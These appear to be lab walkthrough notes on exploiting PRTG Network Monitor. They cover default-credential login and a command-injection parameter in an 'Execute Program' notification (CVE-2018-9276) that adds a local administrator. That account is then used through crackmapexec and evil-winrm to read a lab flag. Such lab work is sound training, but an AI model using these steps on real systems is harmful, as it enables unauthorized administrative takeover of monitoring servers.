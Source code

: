 # PRTG Network Monitor

PRTG Network Monitor is agentless network monitor software. It can be used to monitor bandwidth usage, uptime and collect statistics from various hosts, including routers, switches, servers, and more.

It works with an autodiscovery mode to scan areas of a network and create a device list.

The software runs entirely from an AJAX-based website, but there is a desktop application available for Windows, Linux, and macOS.

It is rare to see PRTG exposed externally,

## Discovery/Footprinting/Enumeration

sudo nmap -sV -p- --open -T4 10.129.201.50

8000/tcp  open  ssl/http      Splunkd httpd
8080/tcp  open  http          Indy httpd 17.3.33.2830 (Paessler PRTG bandwidth monitor)
8089/tcp  open  ssl/http      Splunkd httpd

Here we can see that EyeWitness lists the default credentials :
prtgadmin:prtgadmin

http://10.129.201.50:8080/index.htm

curl -s http://10.129.201.50:8080/index.htm -A "Mozilla/5.0 (compatible;  MSIE 7.01; Windows NT 5.0)" | grep version

  <link rel="stylesheet" type="text/css" href="/css/prtgmini.css?prtgversion=17.3.33.2830__" media="print,screen,projection" />
<div><h3><a target="_blank" href="https://blog.paessler.com/new-prtg-release-21.3.70-with-new-azure-hpe-and-redfish-sensors">New PRTG release 21.3.70 with new Azure, HPE, and Redfish sensors</a></h3><p>Just a short while ago, I introduced you to PRTG Release 21.3.69, with a load of new sensors, and now the next version is ready for installation. And this version also comes with brand new stuff!</p></div>
    <span class="prtgversion">&nbsp;PRTG Network Monitor 17.3.33.2830 </span>

Example of vulnerability which can be used :
https://nvd.nist.gov/vuln/detail/CVE-2018-9276

If default admin credentials failed, try other ones :
prtgadmin:Password123

## Leveraging Known Vulnerabilities

http://10.129.201.50:8080/myaccount.htm?tabid=2

Setup > Account Settings > Notifications > Add new notification

Tick the box next to EXECUTE PROGRAM

Demo exe notification - outfile.ps1
Parameter :
test.txt;net user prtgadm1 Pwn3d_by_PRTG! /add;net localgroup administrators prtgadm1 /add

Now, we could have scheduled the notification to run (and execute our command) at a later time when setting it up

Test
EXE notification is queued up

sudo crackmapexec smb 10.129.201.50 -u prtgadm1 -p Pwn3d_by_PRTG! 

## LAB

10.129.239.161

curl -s http://10.129.239.161:8080/index.htm -A "Mozilla/5.0 (compatible;  MSIE 7.01; Windows NT 5.0)" | grep version
  <link rel="stylesheet" type="text/css" href="/css/prtgmini.css?prtgversion=18.1.37.13946__" media="print,screen,projection" />
                Some functionalities may not work correctly or not at all. Consider upgrading to a modern browser version. We recommend <a href='https://www.google.com/chrome/'>Chrome</a> or <a href='http://www.mozilla.org/firefox/'>Firefox</a>.

http://10.129.239.161:8080/myaccount.htm?tabid=2

prtgadmin:Password123

Setup > Account Settings > Notifications > Add new notification

Tick the box next to EXECUTE PROGRAM

Demo exe notification - outfile.ps1
Parameter :
test.txt;net user prtgadm1 Pwn3d_by_PRTG! /add;net localgroup administrators prtgadm1 /add

Test

Other notification types:
EXE notification is queued up

sudo crackmapexec smb 10.129.239.161 -u prtgadm1 -p Pwn3d_by_PRTG! 

SMB         10.129.239.161  445    APP03            [*] Windows 10.0 Build 17763 x64 (name:APP03) (domain:APP03) (signing:False) (SMBv1:False)
SMB         10.129.239.161  445    APP03            [-] APP03\prtgadm1:Pwn3d_by_PRTG! STATUS_LOGON_FAILURE 


evil-winrm -i 10.129.239.161 -u prtgadm1 -p Pwn3d_by_PRTG!
type c:\Users\Administrator\Desktop\flag.txt
WhOs3_m0nit0ring_wH0?